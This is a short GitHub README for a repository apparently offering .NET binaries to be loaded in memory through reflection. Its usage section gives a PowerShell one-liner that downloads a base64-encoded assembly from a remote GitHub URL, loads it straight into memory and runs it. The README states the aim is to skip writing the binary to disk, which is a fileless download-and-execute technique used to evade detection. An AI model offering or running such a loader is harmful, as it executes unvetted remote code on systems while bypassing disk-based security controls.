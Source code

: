 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading.


# Usage:
```$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

This will remove the step of downloading the binary on disk and just load it straight into memory.
